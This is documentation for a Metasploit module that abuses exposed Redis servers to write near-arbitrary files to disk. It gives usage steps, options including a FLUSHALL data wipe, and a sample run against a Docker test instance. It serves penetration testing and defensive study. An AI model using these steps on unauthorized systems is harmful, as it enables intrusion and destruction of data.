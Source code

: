 ## Description

Redis is an in-memory data structure project implementing a distributed, in-memory key-value database with optional durability. Redis supports different kinds of abstract data structures, such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indexes.

This module can be used to leverage functionality exposed by Redis to achieve somewhat arbitrary file upload to a file and directory to which the user account running the redis instance has access.  It is not totally arbitrary because the exact contents of the file cannot be completely controlled given the nature of how Redis stores its database on disk.

## Vulnerable Application

This module is tested on two different Redis server instances.
Virtual testing environments (inside docker container): 

 - Redis 5.0.6
 - Redis 4.0.14

## Verification Steps

  1. Do: `use auxiliary/scanner/redis/file_upload`
  2. Do: `set rhosts [ips]`
  3. Do: `set LocalFile [local_file_path_to_be_uploaded]`
  4. Do: `set RemoteFile [remote_file_destination]`
  5. Do: `run`

## Options

### DISABLE_RDBCOMPRESSION

If set to `false`, redis server will disable compression before saving. Defaults to `true`.

### FLUSHALL

If set to `true`, redis server will remove all redis data before saving. Defaults to `false`.

### LocalFile

Path to the local file to be uploaded.

### RemoteFile

Path, or file name, to store the file as on the Redis server.

## Scenarios

### Redis: 4.0.14 inside a docker container
  ```
msf auxiliary(scanner/redis/file_upload) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf auxiliary(scanner/redis/file_upload) > set LocalFile redis_upload_test.txt
LocalFile => redis_upload_test.txt
msf auxiliary(scanner/redis/file_upload) > set RemoteFile redis_upload_test.txt
RemoteFile => redis_upload_test.txt
msf auxiliary(scanner/redis/file_upload) > run

[+] 172.17.0.2:6379       - 172.17.0.2:6379       -- saved 23 bytes inside of redis DB at redis_upload_test.txt
[*] 172.17.0.2:6379       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
